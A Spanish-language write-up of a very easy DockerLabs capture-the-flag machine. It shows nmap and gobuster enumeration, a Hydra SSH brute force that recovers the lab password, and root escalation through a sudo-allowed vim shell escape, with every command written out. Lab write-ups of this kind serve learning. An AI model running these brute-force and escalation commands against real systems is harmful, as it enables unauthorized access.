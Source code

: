 # Write-up - Escalada con Vim

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 25/05/2025  
**Aprendizaje:** Aprendí a utilizar `sudo -l` para listar programas que se ejecutan con privilegios de administrador. También investigué formas de escalada de privilegios mediante búsquedas web y el uso de la página [GTFOBins](https://gtfobins.github.io/), que recopila técnicas conocidas para abusar de binarios comunes.

---

## Enumeración y acceso

### 1. Escaneo de puertos

`sudo nmap -sFV -O --open 172.18.0.2`

> Resultado:

`22/tcp => SSH`

`80/tcp => HTTP`

`Sistema operativo: Linux`

### 2. Enumeración de directorios con Gobuster

`gobuster dir -u http://172.18.0.2 -w rockyou.txt -x php,html,txt -q -b 404,403`

> Resultado:
Encontrado `/secret.php` con información que revela el usuario `mario`.

### 3. Ataque de fuerza bruta con Hydra

`hydra -l mario -P rockyou.txt -V ssh://172.18.0.2`

Credenciales encontradas:

> Usuario: `mario`

> Contraseña: `chocolate`

### 4. Acceso por SSH

`ssh -l mario 172.18.0.2`

## Escalada de privilegios

### 5. Revisión de binarios con sudo -l

`sudo -l`

> Resultado:

`/usr/bin/vim`

### 6. Escalada con Vim

Investigando el binario habilitado, se encuentra que `vim` puede ser abusado para obtener una shell como root:

`sudo vim -c ':!/bin/sh'`

### 7. Verificación

whoami
> root
